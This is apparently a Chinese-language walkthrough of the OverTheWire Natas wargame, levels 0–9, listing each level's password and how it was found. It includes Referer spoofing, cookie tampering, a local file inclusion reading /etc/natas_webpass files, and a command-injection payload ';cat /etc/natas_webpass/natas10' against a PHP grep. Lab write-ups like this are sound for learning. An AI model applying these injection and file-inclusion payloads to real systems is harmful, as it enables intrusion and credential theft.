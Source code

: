# natas

每一关的地址是http://natasX.natas.labs.overthewire.org，其中X代表当前关数，默认用户名是nataX（eg.natas0 是level0的用户名），通过当前的一关获取进入下一关的密码。所有密码存储在/etc/natas_webpass/中（eg.level5的密码存储在/etc/natas_webpass/natas5，只能在第四关和第五关能够读取密码）

原文链接：https://blog.csdn.net/tempulcc/article/details/108758417

## level0

```
Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org
```

* 谷歌浏览器打开开发者选项
* 获得密码：0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq
* <!--The password for natas1 is 0nzCigAq7t2iALyvU9xcHlYN4MlkIwlq -->



## Natas Level 0 → Level 1

```
Username: natas1
URL:      http://natas1.natas.labs.overthewire.org
```

* <!--The password for natas2 is TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI -->
* TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI

## Natas Level 1 → Level 2

```
Username: natas2
URL:      http://natas2.natas.labs.overthewire.org
```

*  发现 http://natas2.natas.labs.overthewire.org/files/pixel.png

* 访问files目录

* 发现 users.txt

* 获得：

* ```
  # username:password
  alice:BYNdCesZqW
  bob:jw2ueICLvT
  charlie:G5vCxkVV3m
  natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
  eve:zo4mJWyNj2
  mallory:9urtcpzBmH
  ```

## Natas Level 2 → Level 3

```
Username: natas3
URL:      http://natas3.natas.labs.overthewire.org
```

* 开发模式查看提示：<!-- No more information leaks!! Not even Google will find it this time... -->

* 谷歌通过爬robots.txt决定是否爬取文件

* 访问   http://natas3.natas.labs.overthewire.org/robots.txt

* 获得：

* ```
  User-agent: *
  Disallow: /s3cr3t/
  ```

* 访问  http://natas3.natas.labs.overthewire.org/s3cr3t/

* 找到user.txt
* 获得密码：natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ

## Natas Level 3 → Level 4

```
Username: natas4
URL:      http://natas4.natas.labs.overthewire.org
```

* curl -isu natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ natas4.natas.labs.overthewire.org --referer "http://natas5.natas.labs.overthewire.org/"
* The password for natas5 is 0n35PkggAPm2zbEpOU802c0x0Msn1ToK
* 或者
* 用brup suite抓包后
* proxy 抓包修改referer为 http://natas5.natas.labs.overthewire.org/
  * 保证intercept 为 intercept  is on
  * 修改referer后点击forward
  * 返回原来页面即可查看natas5答案

## Natas Level 4 → Level 5

```
Username: natas5
URL:      http://natas5.natas.labs.overthewire.org
```

* 登录后用bp拦截
* 修改loggedin=0为1
* Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

## Natas Level 5 → Level 6

```
Username: natas6
URL:      http://natas6.natas.labs.overthewire.org
```

* 输入账号密码后出现提示

* ``````
  include "includes/secret.inc";
  
    if(array_key_exists("submit", $_POST)) {
      if($secret == $_POST['secret']) {
      print "Access granted. The password for natas7 is <censored>";
    } else {
      print "Wrong secret";
    }
    }
  ?>
  ``````

* 尝试访问http://natas6.natas.labs.overthewire.org/includes/secret.inc

  * 

  * ```
    <?
    $secret = "FOEIUWGHFEEUHOFUOIU";
    ?>
    ```

* 输入FOEIUWGHFEEUHOFUOIU

* Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS

## Natas Level 6 → Level 7

```
Username: natas7
URL:      http://natas7.natas.labs.overthewire.org
```

* 输入账号密码后查看源代码
  * <!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
* http://natas7.natas.labs.overthewire.org/etc/natas_webpass/natas8
* 点击about超链接后http://natas7.natas.labs.overthewire.org/index.php?page=about
* 尝试http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
* 获得密码xcoXLmzMkoIP9D7hlgPlh9XD7OgLAe5Q

## Natas Level 7 → Level 8

```
Username: natas8
URL:      http://natas8.natas.labs.overthewire.org
```

* 输入密码后获得提示

  * ``````
    <?
    
    $encodedSecret = "3d3d516343746d4d6d6c315669563362";
    
    function encodeSecret($secret) {
        return bin2hex(strrev(base64_encode($secret)));
    }
    
    if(array_key_exists("submit", $_POST)) {
        if(encodeSecret($_POST['secret']) == $encodedSecret) {
        print "Access granted. The password for natas9 is <censored>";
        } else {
        print "Wrong secret";
        }
    }
    ?>
    ``````

  * ``````py
    import base64
    
    hex_str = "3d3d516343746d4d6d6c315669563362"
    
    # 将16进制字符串转换为bytes对象（二进制数据）
    binary_data = bytes.fromhex(hex_str)
    print(binary_data)
    temp = binary_data[::-1]
    print(temp)
    res = base64.b64decode(temp)
    print(res)
    ``````
  
    * 获得结果
      * b'==QcCtmMml1ViV3b'
        b'b3ViV1lmMmtCcQ=='
        b'oubWYf2kBq'
  
  * 输入oubWYf2kBq
  
  * 获得密码Access granted. The password for natas9 is ZE1ck82lmdGIoErlhQgWND6j2Wzz6b6t
  

## Natas Level 8 → Level 9

```
Username: natas9
URL:      http://natas9.natas.labs.overthewire.org
```

* 提示

  * ``````php
    Output:
    <pre>
    <?
    $key = "";
    
    if(array_key_exists("needle", $_REQUEST)) {
        $key = $_REQUEST["needle"];
    }
    
    if($key != "") {
        passthru("grep -i $key dictionary.txt");
    }
    ?>
    </pre>
    
    ``````

* 命令注入 ;cat /etc/natas_webpass/natas10 

  * `;`用来做截断

* 获得密码 t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu